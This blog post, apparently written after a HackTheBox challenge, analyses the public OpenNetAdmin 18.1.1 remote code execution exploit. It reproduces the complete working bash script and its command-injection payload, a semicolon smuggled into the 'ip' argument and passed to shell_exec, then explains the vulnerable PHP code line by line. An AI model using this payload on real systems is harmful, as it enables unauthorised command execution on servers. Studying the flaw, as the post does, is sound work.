 ```yaml
---
layout: post
title: Exploit Analysis - OpenNetAdmin 18.1.1 RCE
---
```

While doing the OpenAdmin challenge on HackTheBox I used an exploit for OpenNetAdmin 18.1.1 that allowed Remote Code Execution. On a normal Kali install, this exploit can be found here: ```/usr/share/exploitdb/exploits/php/webapps/47691.sh```. I wanted to dive a little deeper into how the script worked, so I reformatted it to be more readable and annotated it. Then, I hit up my friend [@jeongm-in](https://github.com/jeongm-in) and we brokedown the exploit.

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/

# Software Link: https://github.com/opennetadmin/ona

# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

# take in first argument, save as URL variable
URL="${1}"

# loop until SIGINT (Ctrl-C)
while true ; do

# print "$ " to represent shell prompt without trailing newline
    echo -n "$ "

# read a line from stdin (i.e. wait for command), save as cmd variable
    read cmd

# use curl's data field to inject command
    curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

## Exploit Command Breakdown
```bash
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```
---
### curl flags
```bash
curl --silent -d
```

```curl```'s flags disable the progress bar and make a POST request containing the included data.

---
### xajax=window_submit
```bash
"xajax=window_submit"
```

xajax is a PHP library that implements Ajax. Per ona documentation of [webwin.inc.php](https://fossies.org/dox/ona-18.1.1/webwin_8inc_8php_source.html), we can use xajax to open a new "window" in a current page.

window_submit is a generic wrapper to handle window form submits that takes in three arguments.
```php
function window_submit($window_name, $form='', $function='') {
// Instantiate the xajaxResponse object
    $response = new xajaxResponse();
    if (!$window_name or !$form) { return($response->getXML()); }
    $js = "";
    
    printmsg("DEBUG => webwin_submit() Window: {$window_name} Function: {$function} Form: {$form}", 1);
```
---
### xajaxr=1574117726710
```bash
"&xajaxr=1574117726710"
```

```&xajaxr=1574117726710``` is ignored and is actually unnecessary for the script to run. The number looks like a Unix Timestamp, specifically 1574117726710ms since epoch. We can convert it to seconds from milliseconds by dividing by 1000, and then use the date command.
```shell
root@kali:~/# date -d @1574117726.71
Mon 18 Nov 2019 05:55:26 PM EST
```
2019-11-18 is a day before the official vulnerability disclosure date in the header (2019-11-19), so we were right!

---
### xajaxargs[]
```bash
"&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping"
```

Now, we are passing three xajax argument arrays with the xajaxargs[] parameters into the three parameters of window_submit. Note however, there are two url-encoded characters in the second xajaxargs[]. ```%3D``` represents ```=``` and ```%3E``` represents ```>```. The double arrow operator ```=>``` in PHP is used to assign values to the keys of an array. 
 
 Essentially:
 ```php
 $window_name = 'tooltips';
 $form = 'ip=>echo \"BEGIN\";${cmd};echo \"END\"';
 $function = 'ping';
```

Further on in the implementation of window_submit, the parameters are processed. Our own comments are prefaced with ```////```.

```php
[...]
//// Since $function is defined, we skip the first case.    
    // If a function name wasn't provided, we look for a function called:
    //   $window_name . '_submit'
    if (!$function) {
        $function = "{$window_name}_submit";
    }

//// $function = ping → ws_ping. ws_ping is a function within tooltips.inc.php that uses
//// the PHP function shell_exec() to execute a ping command. We expect that the writer
//// of this exploit searched the docs for use of this function and worked backward to
//// get RCE.
    $function = 'ws_' . $function;

//// ws_ping does not exist within webwin.inc.php, so this case is skipped.
    // If the function exists, run it and return it's output (an xml response)
    if (function_exists($function)) { return($function($window_name, $form)); }

//// $window_name was set to 'tooltips', because tooltips.inc.php defines the function
//// ws_ping. windows_find_include() locates the function definition from the
//// $window_name.
    // Try looking for the same function in an include file
    $file = window_find_include($window_name);
    if ($file) { require_once($file); }
    else { $response->addAssign("work_space_content", "innerHTML", "<br><center><font color=\"red\"><b>Invalid window requested: {$window_name}</b></font></center>"); }

//// ws_ping is available and is passed the so far unchanged $window_name and $form
//// variables.
    // Now see if our function is available...
    if (function_exists($function)) { return($function($window_name, $form)); }
[...]
```
By the end:
```php
$function($window_name, $form)
//// becomes
ws_ping('tooltips',  'ip=>; echo "\"BEGIN\";  ${cmd};  echo \"END\"')
```

Now in [tooltips.inc.php](https://fossies.org/dox/ona-18.1.1/tooltips_8inc_8php_source.html) we get to the command injection. Our own comments are once again prefaced by ```////```.

```php
// Simple ping function that takes an IP in and pings it.. then shows the output in a module results window
function ws_ping($window_name, $form='') {

//// parse_options_string(), defined in xajax_setup.inc.php, uses preg_match() to ensure
//// '/=>/' is in the input and builds an array from its assignments.
    // If an array in a string was provided, build the array and store it in $form
    $form = parse_options_string($form);

//// $form['ip'] = '; echo "\"BEGIN\";  ${cmd};  echo \"END\"'
//// The semicolon ends the ping command, and injects the command that is originally
//// read from stdin to the exploit script. BEGIN and END are echo'd before and after
//// respectively to allow easier filtering of the curl output.
    $output = shell_exec("ping -n -w 3 -c 3 {$form['ip']}");
    
    $window['title'] = 'Ping Results';
    $build_commit_html = 0;
    $commit_function = '';
    include(window_find_include('module_results'));
    return(window_open("{$window_name}_results", $window));
}
```
---
### ${URL}
```bash
curl --silent -d "[...]" "${URL}"
```
The URL variable tells  ```curl``` where to send the data. With this exploit, we have to specify the location of the OpenNetAdmin directory, e.g. ```http[s]://<ip>:<port>/ona/```.

---
### sed, tail, and head
```bash
    curl --silent -d "[...]" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```
Lastly, the ```curl``` output is piped into ```sed``` where the XML is stripped away minus the lines the BEGIN and END are ```echo```'d and the output of the executed command between them. That output is piped into ```tail``` and then ```head``` to only display the output of the executed command.
